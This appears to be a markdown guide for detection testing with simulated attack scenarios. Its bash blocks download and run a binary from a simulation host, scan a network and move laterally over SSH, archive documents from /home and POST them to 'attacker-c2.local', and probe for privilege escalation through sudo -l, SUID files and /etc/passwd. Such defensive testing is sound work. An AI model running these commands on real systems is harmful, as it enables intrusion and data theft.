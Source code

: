 ### Overview
Comprehensive testing of deployed security content using controlled attack scenarios.

### Testing Methodology

#### Attack Simulation
1. **Execute Attack Scenarios**
   - Run predetermined attack sequences
   - Generate realistic threat activity
   - Simulate various attack vectors
   - Test evasion techniques

2. **Monitor Detection Systems**
   - Verify alert generation
   - Check detection timing
   - Validate alert accuracy
   - Assess coverage gaps

3. **Validate Response Actions**
   - Test automated responses
   - Verify containment actions
   - Check notification systems
   - Validate escalation procedures

#### Test Scenarios

##### Malware Execution
```bash
# Simulated malware download and execution
wget http://threat-simulation.local/malware.exe -O /tmp/malware.exe
chmod +x /tmp/malware.exe
./tmp/malware.exe --simulate-activity
```

##### Lateral Movement
```bash
# Simulated network reconnaissance
nmap -sS 192.168.1.0/24
ssh-keyscan 192.168.1.100 >> ~/.ssh/known_hosts
ssh user@192.168.1.100 "whoami; id; ls -la /etc"
```

##### Data Exfiltration
```bash
# Simulated data collection and transfer
find /home -name "*.doc" -o -name "*.pdf" | head -10 > /tmp/sensitive_files.txt
tar -czf /tmp/exfil.tar.gz -T /tmp/sensitive_files.txt
curl -X POST -F "file=@/tmp/exfil.tar.gz" http://attacker-c2.local/upload
```

##### Privilege Escalation
```bash
# Simulated privilege escalation attempts
sudo -l
find / -perm -4000 2>/dev/null | head -5
cat /etc/passwd | grep bash
```
